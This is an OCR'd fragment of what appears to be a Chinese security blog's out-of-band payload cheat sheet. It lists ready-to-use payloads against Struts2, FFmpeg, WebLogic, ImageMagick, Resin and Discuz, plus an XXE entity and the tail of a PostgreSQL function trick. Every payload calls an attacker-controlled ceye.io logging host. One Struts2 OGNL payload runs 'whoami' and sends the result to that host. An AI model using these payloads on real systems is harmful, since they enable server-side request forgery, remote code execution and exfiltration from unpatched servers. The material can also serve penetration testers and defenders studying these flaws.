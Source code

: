 ```txt
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();

0x02 XML Entity Injection

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>

0x03 Others

i. Struts2

xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

ii. FFMpeg

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST

iii. Weblogic

 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search

iv. ImageMagick

push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context

v. Resin

xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf

vi. Discuz

http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128